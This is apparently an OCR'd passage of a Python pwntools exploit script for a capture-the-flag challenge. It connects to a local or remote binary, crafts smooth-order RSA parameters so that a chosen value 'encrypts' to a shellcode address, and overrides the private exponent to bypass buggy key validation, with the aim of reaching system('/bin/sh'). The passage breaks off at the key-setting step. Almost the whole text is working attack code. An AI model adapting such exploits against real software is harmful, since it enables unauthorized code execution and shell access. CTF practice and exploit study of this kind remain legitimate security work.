 ```python
        context.arch = binary.arch

    if args.REMOTE:
        if args.LIBC:
            libc = ELF(task_libc)
        s = remote(*REMOTE)
    else:
        if args.LIBC:
            libc = ELF(local_libc)
        
        s = process(BINARY_FILE, stderr=open('/dev/null', 'w+'), env=env)
        if args.GDB:
            context.terminal = ['gnome-terminal', '-e']
            breakpoints = [0x400FA9, 0x401408]  # ret from rsa_encrypt
            gdb.attach(s, exe=BINARY_FILE, gdbscript='\n'.join(['b *'+str(x) for x in breakpoints]))
            
    return s, binary, libc


def get_params(addr):
    n = 0
    p = 2**10
    while n < addr:
        p = next_prime(p)
        q = next_prime(p)
        n = p * q

    addr_plaintext = 2  # arbitrary generator
    n, p_order_factors, q_order_factors, e, d = dsks(addr, addr_plaintext, n, smooth_bit_size=10)
    p, q = product(p_order_factors)+1, product(q_order_factors)+1
    assert n == p*q

    phi = euler_phi([p, q])
    d = (2**32) - 1  # bypass buggy validation
    assert e > phi or d > phi or (d*e) % phi == 1

    return addr_plaintext, p, q, e, d


if __name__ == '__main__':
    s, binary, libc = setup_connection()

    context.update(arch = 'amd64')

    g_pbuf = 0x602560
    shellcode_addr = g_pbuf + len('/bin/sh\x00')
    system_global = 0x602538 

    # generate params
    addr_plaintext, p, q, e, d = get_params(shellcode_addr)
    log.info('n = {}'.format(hex(p*q)))
    log.info('e = {}'.format(hex(e)))
    log.info('d = {}'.format(hex(d)))
    log.info('p = {}'.format(hex(p)))
    log.info('q = {}'.format(hex(q)))
    log.info('phi = {}'.format(hex((p-1)*(q-1))))
    log.info('Plaintext address: {}'.format(hex(addr_plaintext)))
    log.info('"Encrypted" address: {} ({})'.format(hex(shellcode_addr), hex(pow(addr_plaintext, e, p*q))))

    # set keys
    log.info("Set keys")
```